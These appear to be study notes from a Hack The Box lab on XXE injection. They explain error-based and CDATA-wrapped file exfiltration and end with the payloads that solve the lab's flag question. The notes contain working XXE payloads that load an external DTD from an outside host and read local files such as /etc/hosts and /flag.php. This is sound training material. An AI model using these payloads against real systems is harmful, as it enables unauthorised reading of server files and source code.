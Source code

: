 The above payload defines the`file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case,`%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined`%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the`error` entity, as follows:

```xml
<!DOCTYPE email [ 
 <!ENTITY % remote SYSTEM "http://10.10.15.192:8000/xxe.dtd">
 %remote;
 %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the`/etc/hosts` file as follows: ![exfil_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g.`"file:///var/www/html/submitDetails.php"`). However,`this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

# Question
---

![Pasted image 20250217180146.png](../../../../IMAGES/Pasted%20image%2020250217180146.png)

We can use the following payloads in order to get the flag:

For `xxe.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```

And, the XML payload:

```xml
<!DOCTYPE email [

 <!ENTITY % dtd SYSTEM

 "http://IP:8000/xxe.dtd">

 %dtd;

 %all;

]>
```
